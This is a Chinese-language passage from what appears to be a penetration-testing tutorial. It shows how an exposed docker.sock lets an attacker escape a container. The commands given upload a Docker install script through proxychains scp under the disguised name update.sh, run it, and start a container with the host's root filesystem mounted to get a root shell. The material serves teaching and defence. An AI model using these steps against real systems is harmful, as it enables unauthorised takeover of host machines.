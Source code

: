 暴露的 `docker.sock` 文件为容器提供了一种向主机上运行的 Docker 守护进程发送命令的方式。拥有容器的 root 权限后，我们可以做各种有趣的事情。特别是，我们可以与主机进行通信，并礼貌地请求它允许我们访问根文件系统。这个功能在现实世界中确实有用。某些应用容器负责管理同一台机器上的其他容器。在这种部署中，主机上运行的 Docker 守护进程必须暴露 `docker.sock`，以便该容器能够完成其工作。

记住，容器通常是极简的，常见的 Unix 工具可能不可用。我们需要在容器内安装 Docker 客户端，以便轻松向 Docker 主机发送命令。为了快速安装 Docker 客户端，我们可以使用 [get.docker.com](http://get.docker.com) 提供的 bash 脚本。这是 Docker 官方的 shell 脚本，用于设置环境、解决依赖问题，并确保成功安装 Docker 客户端。

我们可以使用 `proxychains` 和 `scp` 轻松地从 [get.docker.com](http://get.docker.com) 上传 Docker 安装脚本。在攻击者机器的另一个终端中，我们使用 `wget` 下载脚本并将其保存在本地。然后，我们使用 `proxychains` 封装 `scp`（安全复制）命令，将脚本上传到目标容器：

```
**root@kali:~# wget https://get.docker.com -O /root/tools/docker-install.sh**
**root@kali:~# proxychains scp** 
**/root/tools/docker-install.sh root@172.18.0.2:/tmp/update.sh**
**ProxyChains-3.1 (http://proxychains.sf.net)**
**|S-chain|-<>-127.0.0.1:1080-<><>-172.18.0.2:22-<><>-OK**
**update.sh    100%    14K    00:00**
**root@kali:~#**

```

回到 Docker-SSH 容器终端，我们可以使用 `bash` 执行 Docker 安装脚本：

```
**root@13f0a3bb2706:/# bash /tmp/update.sh**
**# Executing docker install script, commit: 49ee7c1**
**[...]**

```

一旦我们拥有 Docker 客户端二进制文件，就可以与我们友好的主机进行通信，并请求它创建另一个挂载了主机文件系统的容器，使用以下 `docker run` 命令：

```
**root@13f0a3bb2706:/# docker run -iv /:/host ubuntu:latest /bin/bash**
**Unable to find image 'ubuntu:latest' locally**
**latest: Pulling from library/ubuntu**
**[...]**
**Status: Downloaded newer image for ubuntu:latest**
**root@a39621d553e4:/#**

```

我们在这里所做的是从 Docker-SSH 容器内部创建一个新的 Ubuntu 容器实例。`-v` 选项会将主机的根文件系统挂载到新容器的 `/host` 文件夹，并授予读写权限。当这个新容器启动并运行时，Docker 客户端还会生成一个 `/bin/bash` shell，`-i` 开关确保 Docker 不会将容器转入后台（守护进程模式），而是保持交互式会话。换句话说，我们在一个新的 Ubuntu 容器上获得了根 shell。

这一切都是因为在`/var/run/docker.sock`中发现的暴露的 Docker 套接字。Docker 客户端使用这个特殊文件与 Docker 主机 API 通信并发出任意命令。

在这个新生成的 Ubuntu 容器内部，我们可以观察到挂载的主机文件系统：

```
**root@a39621d553e4:/# ls -lah /** 
**total 76K**
**drwxr-xr-x  35 root root 4.0K Oct  7 01:38 .**
**drwxr-xr-x  35 root root 4.0K Oct  7 01:38 ..**
**-rwxr-xr-x   1 root root    0 Oct  7 01:38 .dockerenv**
**[...]**
**drwxr-xr-x   2 root root 4.0K Oct  7 01:38 home**
**drwxr-xr-x  22 root root 4.0K Aug 20 14:11 host**
**[...]**
**drwx------   2 root root 4.0K Oct  7 01:38 root**
**[...]**
**root@a39621d553e4:/#** 

```

